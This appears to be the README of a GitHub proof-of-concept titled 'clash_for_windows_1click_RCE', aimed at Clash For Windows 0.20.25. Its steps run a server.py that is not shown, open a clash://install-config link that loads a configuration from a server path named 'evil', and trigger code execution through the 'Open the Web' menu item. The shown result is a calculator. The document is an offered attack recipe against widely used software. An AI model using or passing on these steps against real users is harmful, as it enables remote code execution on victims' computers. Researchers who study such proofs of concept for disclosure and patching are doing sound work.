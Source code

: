 # clash_for_windows_1click_RCE
clash_for_windows_1click_RCE

- Run server.py
- Open `clash://install-config?url=http%3A%2F%2Fserver-ip%2Fevil` in the browser
- Try right-clicking on the configuration and clicking `Open the Web`
- Get a nice calculator :)

> Clash For Windows 0.20.25
